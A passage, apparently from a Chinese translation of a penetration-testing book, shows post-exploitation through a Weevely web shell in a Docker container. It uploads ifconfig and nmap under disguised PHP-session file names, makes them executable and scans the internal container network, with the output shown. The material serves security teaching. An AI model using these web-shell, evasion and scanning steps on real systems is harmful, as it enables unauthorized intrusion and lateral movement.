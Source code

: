 我们还可以通过 Weevely 的 `:file_upload` 命令将 `ifconfig` 从攻击者机器上传到容器中，因为容器中也没有这个二进制文件。我们有一个本地副本的 `ifconfig`，它可以正常工作，我们将它上传到目标系统的 `/tmp` 文件夹下，使用一个虚假的文件名：

```
**weevely > :file_upload /sbin/ifconfig /tmp/sess_IWxvbCB3aGF0J3MgdXAgZG9j**

```

和 `nmap` 一样，我们需要使用 `chmod` 和 `+x` 参数使文件具有可执行权限：

```
**weevely > chmod +x /tmp/sess_IWxvbCB3aGF0J3MgdXAgZG9j**

```

现在我们有了一些工具，我们可以通过运行最近上传的 `ifconfig` 命令来确定我们的方向：

```
**weevely > /tmp/sess_IWxvbCB3aGF0J3MgdXAgZG9j**
**eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500**
 **inet 172.18.0.4**
 **netmask 255.255.0.0  broadcast 0.0.0.0**
 **ether 02:42:ac:12:00:04  txqueuelen 0  (Ethernet)**
 **RX packets 413726  bytes 90828932 (86.6 MiB)**
 **RX errors 0  dropped 0  overruns 0  frame 0**
 **TX packets 342415  bytes 54527687 (52.0 MiB)**
 **TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0**
**[...]**

```

记住，Docker 容器使用的是自己的内部网络，与主机的网络是分开的。除非另有指定，默认情况下，托管在其他容器中的邻近应用将加入同一网络。在这种情况下，`172.18.0.0/16` 网络可以通过 `eth0` 接口访问。这可能为我们提供访问其他应用程序的路径，而这些应用程序可能在我们参与的范围之内。

现在我们已经知道要查看什么内容，可以调用 `nmap` 可执行文件（`/tmp/sess_IWxvbCBwaHAgc2Vzc2lvbnMu`）对容器网络进行快速服务扫描：

```
**weevely > /tmp/sess_IWxvbCBwaHAgc2Vzc2lvbnMu -p1- 172.18.0.0/24** 
**[...]**
**Nmap scan report for 172.18.0.1**
**Host is up (0.00079s latency).**
**Not shown: 65534 closed ports**
**PORT     STATE SERVICE**
**22/tcp   open  ssh**
**8000/tcp open  unknown**

**Nmap scan report for content_ssh_1.content_default (172.18.0.2)**
**Host is up (0.00056s latency).**
**Not shown: 65534 closed ports**
**PORT     STATE SERVICE**
**22/tcp   open  ssh**
**8022/tcp open  unknown**

**Nmap scan report for content_db_1.content_default (172.18.0.3)**
**Host is up (0.00038s latency).**
**Not shown: 65535 closed ports**
**PORT     STATE SERVICE**
**3306/tcp open  mysql**

**Nmap scan report for 8f4bca8ef241 (172.18.0.4)**
**Host is up (0.000090s latency).**
**Not shown: 65535 closed ports**
**PORT   STATE SERVICE**
**80/tcp open  http**

**Nmap done: 256 IP addresses (4 hosts up) scanned in 8.97 seconds**

```
